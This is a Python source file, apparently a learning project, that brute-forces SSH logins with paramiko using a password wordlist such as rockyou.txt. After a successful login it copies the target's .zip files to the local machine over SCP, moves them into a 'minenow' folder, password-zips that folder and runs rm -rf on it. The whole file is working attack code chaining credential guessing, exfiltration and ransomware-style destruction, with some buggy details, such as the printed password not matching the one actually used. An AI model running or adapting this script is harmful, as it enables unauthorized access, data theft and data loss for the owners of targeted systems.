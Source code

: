 #!/usr/bin/env python3
# 2/6/2024
# Script - This is an example of a Brute force script 
    # It allows a user to SSH into a known IP with a Known User and tries different passwords with the file provided
    # The script will then Search for .zip files 
    # If files are found it will move them to the host PC of the script into a new folder 
    # Once files have been copied over it will then move the found files into a new folder 
    # Once in the new folder it will zip and encrypt these files with a default password 
    # Once encrypted the script will then delete the original .zip files. 

# Resources Google, Bard, ChatGPT, https://www.paramiko.org/: https://www.paramiko.org/

import paramiko #install with pip install paramiko resource https://www.paramiko.org/: https://www.paramiko.org/
import os
from paramiko import SSHClient, AutoAddPolicy
from scp import SCPClient # Install with pip install scp

def brute_force_ssh(hostname, username, password_file):
    # Create an SSH client instance
    client = paramiko.SSHClient()
    port = 22
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    # Open the password file
    with open(password_file, 'r') as f:
        # Loop through each line in the file
        for password in f:
            password = password.strip()  # Remove leading/trailing whitespaces and newline characters
            print(f"Trying password: {password}")
            # Attempt SSH connection with the password
            try:
                client.connect(hostname, port, username, password)

                # Print the current working directory   
                stdin, stdout, stderr = client.exec_command("pwd")
                output = stdout.read().decode().strip()
                print(f"Current working directory: {output}")

                # List files and search for .zip files
                stdin, stdout, stderr = client.exec_command("find . -name '*.zip'")
                zip_files = stdout.read().decode().strip().split('\n')
                print("Found zip files:")
                for zip_file in zip_files:
                    print(zip_file)

                    # Create a new folder named 'itworked' on the local machine if it doesn't exist
                    local_folder_path = os.path.join(os.getcwd(), "itworked")
                    if not os.path.exists(local_folder_path):
                        os.makedirs(local_folder_path)

                    # Define the local path where the zip file will be copied
                    local_copy_path = os.path.join(local_folder_path, os.path.basename(zip_file))

                    # Copy the zip file from the remote server to the local machine
                    with SCPClient(client.get_transport()) as scp:
                        scp.get(zip_file, local_copy_path)
                    
                    print(f"Successfully copied {zip_file} to {local_copy_path}")

                    # Create a new folder named 'minenow' on the remote machine if it doesn't exist
                    remote_folder_path = "/home/will/minenow"
                    create_folder_command = f"mkdir -p {remote_folder_path}"
                    client.exec_command(create_folder_command)

                    # Move the zip file to the 'minenow' folder
                    move_command = f"mv {zip_file} {remote_folder_path}"
                    client.exec_command(move_command)
                    print(f"Successfully moved {zip_file} to {remote_folder_path}")

                # Encrypt the 'minenow' folder with password 'password1234'
                zip_command = f"zip -r -P {password} {remote_folder_path}.zip {remote_folder_path}"
                client.exec_command(zip_command)
                print(f"Successfully encrypted {remote_folder_path} to {remote_folder_path}.zip with password 'password1234'")

                # Delete the original .zip files
                delete_command = f"rm -rf {remote_folder_path}"
                client.exec_command(delete_command)
                print(f"Successfully deleted the original files in {remote_folder_path}")

                break  # Exit the loop after finding and processing the files
            except Exception as e:
                print(f"Error: {e}")
        else:
            # No valid password found if the loop completes without successful authentication
            print("No valid password found.")

    # Close the SSH connection
    client.close()

def main():
    # Prompt user for SSH connection details
    hostname = input("Enter the hostname or IP address of the remote server (default: X.X.X.X): ") or 'X.X.X.X'
    username = input("Enter your username (default: XXX): ") or 'XXX'
    password = input("Enter your password (press Enter to skip): ")

    if password:
        brute_force_ssh(hostname, username, password)
    else:
        password_file = input("Enter the path to the password file (default: rockyou.txt): ") or 'rockyou.txt'
        brute_force_ssh(hostname, username, password_file)

if __name__ == "__main__":
    main()
